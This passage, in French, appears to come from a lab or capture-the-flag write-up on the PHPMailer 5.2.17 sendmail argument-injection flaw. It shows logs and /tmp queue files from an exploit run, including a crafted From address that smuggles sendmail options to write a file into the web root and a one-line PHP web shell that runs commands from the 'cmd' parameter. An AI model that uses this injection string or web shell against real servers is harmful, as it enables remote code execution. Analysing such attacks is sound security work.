 Et après un moment on a la fin :  

```plain
12964 >>> From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php  some"@email.com> 
12964 >>> Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
12964 >>> X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
12964 >>> MIME-Version: 1.0 
12964 >>> Content-Type: text/plain; charset=iso-8859-1 
12964 >>>  
12964 >>> zz<?php system($_GET['cmd']); ?>zz_message 
12964 >>>  
12964 >>> . 
12964 <<< 250 Ok 
12964 >>> QUIT 
12964 <<< 221 Bye
```

Bref le champ *name* (qui apparaît plus tôt) est plus intéressant que le champ *message*. D'ailleurs Metasploit n'utilise pas ce dernier.  

L'exploitation laisse des traces, on a ainsi deux fichier créés dans */tmp* :  

```plain
-rw-rw----    1 www-data www-data       44 Jan 13 07:27 df20D7P4U8012964
-rw-rw----    1 www-data www-data     1015 Jan 13 07:29 qf20D7P4U8012964
```

Le premier ne contient que le message :   

```plain
zz<?php system($_GET['cmd']); ?>zz_message
```

Le second ressemble à un mix d'entêtes et de charabia :  

```plain
V8 
T1642058704 
K1642058944 
N1 
P60509 
Msome"@email.com... Unbalanced '"' 
Fbs 
$_www-data@localhost 
${daemon_flags}c u 
Sattacker\ 
rRFC822; admin@dockerdonkey.com 
RPFD:Donkey <admin@dockerdonkey.com> 
H?P?Return-Path: <�g> 
H??Received: (from www-data@localhost) 
        by 12081bd067cc (8.14.4/8.14.4/Submit) id 20D7P4U8012964 
        for some"@email.com; Thu, 13 Jan 2022 07:25:04 GMT 
H??X-Authentication-Warning: 12081bd067cc: www-data set sender to attacker\ using -f 
H??X-Authentication-Warning: 12081bd067cc: Processed from queue /tmp/ 
H??To: Donkey <admin@dockerdonkey.com> 
H??Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
H??X-PHP-Originating-Script: 0:class.phpmailer.php 
H??Date: Thu, 13 Jan 2022 07:20:24 +0000 
H??From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php  some"@email.com> 
H??Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
H??X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
H??MIME-Version: 1.0 
H??Content-Type: text/plain; charset=iso-8859-1 
.
```
